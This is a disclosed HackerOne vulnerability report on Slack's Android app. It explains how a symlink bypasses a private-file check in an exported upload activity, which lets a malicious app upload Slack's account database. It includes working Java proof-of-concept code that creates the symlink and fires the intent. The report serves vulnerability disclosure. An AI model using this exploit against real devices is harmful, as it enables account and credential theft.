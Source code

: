 # Private application files can be uploaded to Slack via malicious uploader

## Report Details
- **Report ID**: 375083
- **URL**: https://hackerone.com/reports/375083
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-07-01T21:21:38.639Z
- **Disclosed**: 2021-08-04T14:35:24.669Z

## Reporter
- **Username**: shell_c0de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Hi. I have found an issue which allows to retrieve any files from `/data/data/com.Slack/*` directory. The problem is in exported activity `com.Slack.ui.UploadActivity` which accepts a URI to download files. I see that you've added verification
```java
private static boolean isPrivateFile(Uri uri) {
        return uri.getPathSegments().contains("com.Slack");
    }
```
You can bypass the verification using symlink files. Malicious code:
```java
 StrictMode.VmPolicy.Builder builder = new StrictMode.VmPolicy.Builder();
    StrictMode.setVmPolicy(builder.build());
    new File("/data/data/com.example.route.readfileapk/").setReadable(true,false);
    new File("/data/data/com.example.route.readfileapk/").setWritable(true,false);
    new File("/data/data/com.example.route.readfileapk/").setExecutable(true,false);
   
       try {
            Runtime.getRuntime().exec("ln -s /data/data/com.Slack/databases/account_manager /data/data/com.example.route.readfileapk/account_manager").waitFor();
        }
        catch(Exception e) {
            e.printStackTrace();
            finish();
            return;
        }
        new File("/data/data/com.example.route.readfileapk/account_manager").setReadable(true,false);
        Intent intent = new Intent("android.intent.action.SEND");
        intent.setClassName("com.Slack", "com.Slack.ui.UploadActivity");
        intent.setType("*/*");
        intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        intent.putExtra("android.intent.extra.STREAM", Uri.parse("file:///data/data/com.example.route.readfileapk/account_manager"));
        startActivity(intent);
```
Malware creates a link to your file `/data/data/com.Slack/databases/account_manager` (where `com.example.route.readfileapk` is package name of the malware), grants read/execute permission to any user (I mean Linux users), and starts your activity with the new URI.

## Impact

This vulnerability can get a complete account, malware can access everything, including cookies, history and e-mail.

## Attachments
- JhxHDcibKVI.jpg
- 2451RVhK2S8.jpg
- PQzofS_icd4.jpg
- com.example.route.readfileapk.apk
- DSxS8FlOR7M.jpg
